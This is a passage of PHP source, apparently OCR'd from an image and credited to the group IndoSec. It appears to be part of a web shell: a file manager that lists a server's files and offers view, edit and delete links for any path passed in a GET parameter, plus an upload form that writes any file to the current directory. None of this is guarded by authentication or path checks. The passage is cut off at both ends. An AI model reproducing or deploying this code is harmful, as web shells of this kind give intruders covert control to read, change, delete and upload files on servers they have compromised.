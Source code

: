             echo '</tr>';
        }
 
        echo '<tr><td></td></tr>';
 
        foreach($scandir as $file){
            if(!is_file($path.'/'.$file)) continue;
            $size = filesize($path.'/'.$file)/1024;
            $size = round($size,3);
            if($size >= 1024){
                $size = round($size/1024,2).' MB';
            }else{
                $size = $size.' KB';
            }
 
            echo '<tr>
                <td><i class="fa fa-file"></i> <font color="#007CFF">'.$file.'</td>
                <td><center>'.$size.'</center></td>
                <td><center>';
                if(is_writable($path.'/'.$file)) echo '<font color="#00ff00">';
                elseif(!is_readable($path.'/'.$file)) echo '<font color="red">';
                echo perms($path.'/'.$file);
                if(is_writable($path.'/'.$file) || !is_readable($path.'/'.$file)) echo '</font>
                <td><center><a href="?aksi=view&dirf='.$path.'/'.$file.'">lihat</a>  <a href="?aksi=edit&dirf='.$path.'/'.$file.'">edit</a>  <a href="?aksi=hapusf&dirf='.$path.'/'.$file.'">Hapus</a></td>';
                echo '</center></td>
            </tr>';
        }
    echo '</table></center><hr/><p align="center" style="opacity: 0.3;"><a href="https://facebook.com/IndoSecOfficial" style="color: white;">Copyright 2019 { IndoSec }</a></p><br/>';
   
    //upload
    if ($_GET['aksi'] == 'upload') {
        echo "<hr/><div class='card'><br /><form method='POST' enctype='multipart/form-data' name='uploader' id='uploader'>
            <font color='black'><input class='btn btn-danger btn-sm' type='file' name='file' size='50'>  <input class='btn btn-info' type='submit' value='Upload'></font></div><hr/>";
       
        if(isset($_FILES['file'])){
            if(copy($_FILES['file']['tmp_name'],$path.'/'.$_FILES['file']['name'])){
                echo '<script>window.location="?dir='.$path.'"; alert("Upload Berhasil");</script>';
            }else{
                echo 'Gagal Upload!!!</b><br><br>';
            }
        }
    }
echo "</di>";
   
   
//File.....
   
    //openfile
    if (isset($_GET['dirf'])) {
        $file = $_GET['dirf'];
    }
       
